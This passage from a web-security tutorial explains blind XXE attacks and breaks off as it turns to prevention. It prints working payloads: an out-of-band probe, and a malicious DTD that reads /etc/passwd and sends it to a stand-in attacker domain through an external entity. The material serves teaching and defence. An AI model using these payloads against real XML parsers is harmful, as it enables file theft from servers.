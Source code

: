 This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

### Exploiting Blind XXE to exfiltrate data out-of-band

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the /etc/passwd file is as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD carries out the following steps:

* Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
* Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
* Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
* Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

` http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the /etc/passwd file is transmitted to the attacker's server.

## How to prevent XXE vulnerabilities

Virtually all XXE vulnerabilities arise because the application's XML parsing library supports potentially dangerous XML features that the application does not need or intend to use. The easiest and most effective way to prevent XXE attacks is to disable those features.

